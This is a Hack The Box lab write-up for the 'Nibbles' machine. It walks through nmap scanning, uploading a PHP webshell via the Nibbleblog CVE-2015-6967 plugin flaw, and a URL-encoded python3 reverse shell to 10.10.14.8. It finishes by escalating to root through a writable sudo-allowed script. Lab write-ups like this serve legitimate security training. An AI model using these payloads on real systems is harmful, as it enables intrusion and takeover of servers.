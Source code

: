 ```yaml
---
title: HTB Template
date: 2022-08-08 23:58:00 +0800
categories: [HTB]
tags: [HTB, Easy, External, Nibbleblog, CVE-2015.6967, A06:2021-Vulnerable And Outdated Components]
pin: false
---
```


![nibbles-img](https://www.hackthebox.com/storage/avatars/344a8f99e8f7dddfed764f791e2731df.png)

This is the writeup for [Nibbles](https://app.hackthebox.com/machines/Nibbles) machine from HTB.

## Scanning and enumeration

Now it's time to start the active scanning.

As always, we define our TARGET and hosts file of our machine to facilitate the process.

```console
TARGET=10.10.10.75
echo "10.10.10.75 nibbles.htb" | sudo tee -a /etc/hosts
```

We launch a single `TCMP` probe to check ping.

```console
ping -c 1 $TARGET		# => Ping is working
```

### NMAP

To scan the `target` to find open ports and possible vulnerabilities we use `nmap`.

First, simple `TCP` scan without `DNS` resolution and ping discovery, to all the ports and with the version detection.

```console
nmap -n -Pn -sV -p- $TARGET -vvv -oG allPorts
```

### Nibbleblog

First we visit the site _<http://nibbles.htb>_, from the source code we can see that there is an indication to `nibbleblog`. This is an important clue because we can already check on the internet.

[CSRF](https://seclists.org/fulldisclosure/2015/Sep/4)
[RCE in My Image plugin](https://seclists.org/fulldisclosure/2015/Sep/5)

It looks like to exploit the `RCE` we might need to be logged in. This is something somehow difficult, because it requires guessing and the machine has a protection in place to avoid people from using tools like `hydra`.

The user can be obtained from the _</nibbleblog/content/private/users.xml>_ and the password must be guessed. (In real life probably we should have exploit the CSRF or XSS and wait for the user to login, with this blacklist protection is hard...)

Once we are inside we are going to use [CVE-2015-6967](https://www.cvedetails.com/cve/CVE-2015-6967/) to upload a '`php webshell`.

```console
echo "<?php system($_REQUEST['cmd']); ?>" > cmd.php
```

Ignore the warnings after uploading the image and go to _</nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami>. It will display the username.

_
## Gaining access

Just launch a reverse shell (I like the shortest python3...)

_<http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php?cmd=python3%20-c%20%27import%20os%2Cpty%2Csocket%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%2210.10.14.8%22%2C7890%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cf%29for%20f%20in%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fbash%22%29%27>_


## Privilege escalation / lateral movements

We execute `sudo -l` to understand if it is possible to execute commands as `sudo`. We see that it is possible to execute `sudo /home/nibbler/personal/stuff/monitor.sh`

The file doesn't exist so we just need to create it and grant permissions

```console
mkdir /home/nibbler/personal
mkdir /home/nibbler/personal/stuff
echo "bash -i" > /home/nibbler/personal/stuff/monitor.sh
chmod +x /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```
And we are root!